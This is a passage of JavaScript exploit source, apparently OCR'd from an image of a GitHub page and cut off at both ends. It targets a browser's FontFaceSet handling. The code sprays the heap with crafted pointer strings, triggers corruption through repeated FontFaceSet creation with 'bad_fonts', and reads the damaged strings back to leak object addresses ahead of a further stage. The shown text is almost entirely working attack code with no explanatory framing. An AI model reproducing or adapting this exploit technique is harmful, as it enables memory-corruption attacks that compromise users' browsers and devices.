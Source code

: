                     ans = 256 * ans + p.charCodeAt(o + i);
                return ans;
            }    
            var strings = [];    
            function mkString(l, head) {
                var s = head + '\u0000'.repeat(l - STRING_OFFSET - 8 - head.length) + (string_id++);
                string_atomifier[s] = 1;
                strings.push(s);
                return s;
            }    
            var guf = GUESS_FONT;
            var ite = true;
            var matches = 0;    
            var round = 0;    
            window.ffses = {};    
            do {    
                var p_s = ptrToString(NPAGES + 2); // vector.size()
                for (var i = 0; i < NPAGES; i++)
                    p_s += ptrToString(guf + i * PAGE_SIZE);
                p_s += ptrToString(INVALID_POINTER);    
                for (var i = 0; i < 256; i++)
                    mkString(HASHMAP_BUCKET, p_s);    
                var ffs = ffses["search_" + (++round)] = new FontFaceSet(bad_fonts);    
                var badstr1 = mkString(HASHMAP_BUCKET, p_s);    
                var guessed_font = null;
                var guessed_addr = null;    
                for (var i = 0; i < SPRAY_FONTS; i++) {
                    bad_fonts[i].family = "search" + round;
                    if (badstr1.substr(0, p_s.length) != p_s) {
                        guessed_font = i;
                        var p_s1 = badstr1.substr(0, p_s.length);
                        for (var i = 1; i <= NPAGES; i++) {
                            if (p_s1.substr(i * 8, 8) != p_s.substr(i * 8, 8)) {
                                guessed_addr = stringToPtr(p_s.substr(i * 8, 8));
                                break;
                            }
                        }
                        if (matches++ == 0) {
                            guf = guessed_addr + 2 * PAGE_SIZE;
                            guessed_addr = null;
                        }
                        break;
                    }
                }    
                if ((ite = !ite))
                    guf += NPAGES * PAGE_SIZE;    
            }
            while (guessed_addr === null);    
            var p_s = '';
            p_s += ptrToString(26);
            p_s += ptrToString(guessed_addr);
            p_s += ptrToString(guessed_addr + SIZEOF_CSS_FONT_FACE);
            for (var i = 0; i < 19; i++)
                p_s += ptrToString(INVALID_POINTER);    
            for (var i = 0; i < 256; i++)
                mkString(HASHMAP_BUCKET, p_s);    
            var needfix = [];
            for (var i = 0;; i++) {
                ffses["ffs_leak_" + i] = new FontFaceSet([bad_fonts[guessed_font], bad_fonts[guessed_font + 1], good_font]);
                var badstr2 = mkString(HASHMAP_BUCKET, p_s);
                needfix.push(mkString(HASHMAP_BUCKET, p_s));
                bad_fonts[guessed_font].family = "evil2";
                bad_fonts[guessed_font + 1].family = "evil3";